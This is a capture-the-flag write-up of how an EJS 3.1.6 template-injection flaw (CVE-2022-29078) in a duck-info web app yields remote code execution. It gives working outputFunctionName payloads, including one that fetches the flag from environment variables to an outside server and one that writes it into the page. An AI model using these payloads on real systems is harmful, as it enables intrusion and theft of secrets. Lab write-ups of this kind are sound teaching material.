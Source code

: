 ## Solve Process  
We are greeted with this page  
![image58](/static/writeups/photos/image58.png)  
You input a duck name, and get info on it  
![image59](/static/writeups/photos/image59.png)

Nothing special here. Lets look at the source code. 

We also can see where the flag is located in the server, inside the environment variables  
```javascript
if (!Deno.env.has('FLAG')) {
  throw new Error('flag is not configured')
}
```
The hint told us that the website hasn’t been updated. This usually clues us into a CVE attack, usually because the modules are outdated.  
```javascript
import express from 'npm:express@4.18.2'
import 'npm:ejs@3.1.6'
```
Checking the versions of each module, we can google for common CVE’s on any CVE website. I use [this](https://www.cvedetails.com/vulnerability-list/vendor\_id-21510/EJS.html?page=1\&order=1\&trc=6\&sha=6e24efd2739829041c99beb25ded6dfd67d57e85)

Notable, EJS version 3.1.6 seems to have a major CVE, **CVE-2022-29078**, which allows for an RCE attack.   
[This](https://eslam.io/posts/ejs-server-side-template-injection-rce/) writeup provides a good explanation of how the CVE works. Basically, if the server is allows the user to have their own attributes in the “data” parameter of the render method in ejs, then their server will be exposed to an RCE. In this case, that is true.  
```javascript
app.post('/', (req, res) => {
  for (const [breed, summary] of Object.entries(breeds)) {
    if (req.body?.breed?.toLowerCase() === breed.toLowerCase()) {
      res.render('search', {
        summary,
        notFound: false,
        ...req.body
      })
    }
    return
  }
})
```
The attributes in req.body are parsed into the data parameter of the render method in ejs. This allows the user to conduct the RCE by change the **settings\[view options\]\[outputFunctionName\]** value which can then execute arbitrary code. 

For example, if the attacker sets   
```javascript 
settings[view options][outputFunctionName]=x;console.log('hello');s
```  
Then the console.log(‘hello’) will be executed by the ejs parser.

## Trying payloads  
At first, tried a simple fetch request to try to exfiltrate the code:  
```javascript 
settings[view options][outputFunctionName]=x;fetch('myserver?'+Deno.env.get('FLAG'));s
```
I used [requestBin](https://pipedream.com) to exflitrate the data. However, it seems the request did not go through. This could be because the network restricts external requests.

Then, I tried digging deeper into how EJS works to see if I can get the webpage to display the flag instead.  
```javascript
prepended += 
  ' var __output = "";\n' + 
  ' function __append(s) { if (s !== undefined && s !== null) __output += s }\n';

if (opts.outputFunctionName) {
  prepended += ' var ' + opts.outputFunctionName + ' = __append;' + '\n';
}
```
This is also where the exploit happens. **opts.outputFunctionName** is where our payload is.   
Right above that, we see a **\_\_output**. Judging by the name, I assumed that this is probably the request response that is outputted by EJS. As such, if I add the Flag to this output, I should see the flag in the webpage.  
```javascript
settings[view options][outputFunctionName]=x;__output+=Deno.env.get('FLAG');s
```

Using Burpsuite:  
![image64](/static/writeups/photos/image64.png)

And we get our flag:  
![image65](/static/writeups/photos/image65.png)
